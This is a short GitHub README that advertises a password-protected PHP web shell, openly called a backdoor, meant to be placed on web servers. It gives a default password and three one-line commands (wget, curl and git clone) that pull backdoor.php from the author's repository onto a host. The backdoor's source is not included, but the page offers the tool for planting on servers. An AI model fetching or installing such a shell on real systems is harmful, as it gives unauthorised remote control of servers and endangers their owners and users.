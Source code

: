 # WebShell 

This is a simple backdoor protected with a password written in PHP. You can change the value of the $PASSWD variable in the PhpBindShell.php file and put whatever you wan't, but remember : if you loose the password, you loose the shell.

**Default Password :** ``P@ssw0rd``
 
 
# Download :
Here is some one liner to download it easely :
```bash
wget https://raw.githubusercontent.com/NullBrunk/WebShell/main/backdoor.php  
```
```bash
curl -so backdoor.php https://raw.githubusercontent.com/NullBrunk/WebShell/main/backdoor.php 
```
```bash
git clone https://github.com/NullBrunk/WebShell.git && mv WebShell/backdoor.php ./ && rm -rf WebShell/
```

# Result



https://user-images.githubusercontent.com/106782577/177163113-b9b04ccb-5326-40a2-908d-0669e68ba571.mp4


